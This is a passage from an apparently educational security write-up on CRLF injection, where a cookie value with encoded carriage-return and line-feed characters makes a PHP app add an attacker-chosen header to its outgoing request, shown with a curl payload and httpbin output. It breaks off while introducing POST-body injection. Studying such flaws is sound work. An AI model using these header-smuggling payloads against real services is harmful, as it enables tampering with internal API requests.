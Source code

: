 In place of the internal API endpoint I'm using `http://httpbin.org/post`, which returns a JSON document describing the POST request that was sent, including any POST data and headers that were in the request.

The important thing to note about the response is that the `X-Trial-Groups` header sent to httpbin.org contains the `A1,B2` string that was in the `trialGroups` cookie. Let's try some CRLF (Carriage Return Line Feed) injection then:

```
tom@slim:~▶ curl -s localhost:1234 -b 'trialGroups=A1,B2%0d%0aX-Injected:%20true' 
{
  "args": {}, 
  "data": "{\"method\":\"getPublicData\",\"params\":[]}", 
  "files": {}, 
  "form": {}, 
  "headers": {
    "Accept": "*/*", 
    "Connection": "close", 
    "Content-Length": "38", 
    "Content-Type": "application/json", 
    "Host": "httpbin.org", 
    "X-Injected": "true", 
    "X-Trial-Groups": "A1,B2"
  }, 
  "json": {
    "method": "getPublicData", 
    "params": []
  }, 
  "origin": "X.X.X.X", 
  "url": "http://httpbin.org/post"
}
```

PHP automatically decodes URL-encoded sequences (e.g. `%0d`, `%0a`) in cookie values, so we can use a URL-encoded carriage return character (`%0d`) and line feed character (`%0a`) in the cookie value we send. HTTP headers are separated by CRLF sequences, so when the PHP cURL library writes the request headers the `X-Injected: true` part of our payload is treated as a separate header. Magic!

---

## HTTP Requests

What can you really do by injecting headers into the request? Well, truth be told: not very much in this case. If we dig a little deeper into the structure of an HTTP request you'll see that we can do more than just inject headers though; we can inject `POST` data too!

To understand how the exploit will work, you need to know a little bit about HTTP requests. Just about the most basic HTTP `POST` request you can do looks like this:

```
POST /post HTTP/1.1
Host: httpbin.org
Connection: close
Content-Length: 7
thedata
```
